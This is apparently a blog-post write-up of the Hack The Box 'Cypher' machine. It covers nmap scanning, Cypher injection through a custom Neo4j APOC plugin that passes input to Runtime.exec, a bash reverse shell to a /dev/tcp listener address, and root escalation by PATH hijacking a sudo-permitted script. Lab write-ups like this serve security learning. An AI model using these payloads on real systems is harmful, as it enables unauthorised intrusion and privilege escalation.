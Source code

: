 ```yaml
---
layout: post
title: "Cypher HTB Writeup"
date: 2025-07-26 01:18:00 +0300
categories: [HackTheBox, Machines]
tags: [cybersecurity, neo4j, hackthebox, cypher]
---
```

# Cypher HTB WriteUp 
Cypher is a medium difficulty Linux machine on Hack The Box. It involves a custom Neo4j APOC plugin vulnerable to Cypher Injection, which leads to remote command execution and privilege escalation via misconfigured sudo.

---

## Nmap

We begin with a full TCP scan.

```bash
nmap -p- --min-rate 10000 -oA full-tcp 10.10.11.57
````

Open ports:

```
22/tcp  open  ssh
80/tcp  open  http
```

We follow up with a more detailed scan:

```bash
nmap -sC -sV -p22,80 -oA targeted 10.10.11.57
```

---

## Web Enumeration

Navigating to `http://cypher.htb`, we see a testing interface. Under `/testing/`, we find a downloadable JAR file:

```
custom-apoc-extension-1.0-SNAPSHOT.jar
```

We extract its contents:

```bash
unzip custom-apoc-extension-1.0-SNAPSHOT.jar -d extracted
```

Inside, we find Java files, specifically `CustomFunctions.java`, defining custom APOC procedures.

---

## Cypher Injection → RCE

Inspecting `CustomFunctions.java`, we notice user input passed into `Runtime.getRuntime().exec()` via a Cypher query.

This suggests a Cypher injection is possible.

We use the following payload to test code execution:

```cypher
CALL custom.run("id")
```

After setting up a listener and injecting a reverse shell command:

```cypher
CALL custom.run("bash -c 'bash -i >& /dev/tcp/10.10.14.XX/4444 0>&1'")
```

We get a shell.

---

## Post Exploitation

Stabilize the shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Check user:

```bash
whoami
```

Grab user flag:

```bash
cat /home/neo4j/user.txt
```

---

## Privilege Escalation

We check `sudo` permissions:

```bash
sudo -l
```

We are allowed to run a custom script without password. The script calls a system binary with insufficient sanitization.

By injecting a malicious path or replacing the expected binary, we escalate to root.

```bash
echo 'bash' > /tmp/whoami
chmod +x /tmp/whoami
export PATH=/tmp:$PATH
sudo /path/to/script
```

And now we are root:

```bash
whoami
# root
```

Grab the root flag:

```bash
cat /root/root.txt
```

---

## Conclusion

Cypher was a well-structured medium box. The key was spotting the insecure use of user input in the custom Neo4j APOC plugin. After exploiting Cypher Injection to gain RCE, the rest was classic post-exploitation and privilege escalation via a poorly secured script.

---
